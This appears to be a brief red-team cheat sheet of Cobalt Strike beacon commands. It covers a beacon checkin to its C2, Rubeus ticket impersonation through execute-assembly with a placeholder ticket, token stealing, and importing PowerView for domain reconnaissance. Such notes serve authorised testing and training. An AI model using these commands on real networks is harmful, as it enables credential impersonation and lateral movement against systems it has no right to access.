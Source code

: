 List listening bindings
```
run netstat -anp tcp
```

To get beacon to send the info of itself to c2
```
checkin
```

Impersionation with ticket

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:username /password:FakePass /ticket:doIFwj[...]MuSU8=
setal_token xxx

```

Import Powerview

```
powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
```

Convert SID
```
powershell ConvertFrom-SID
```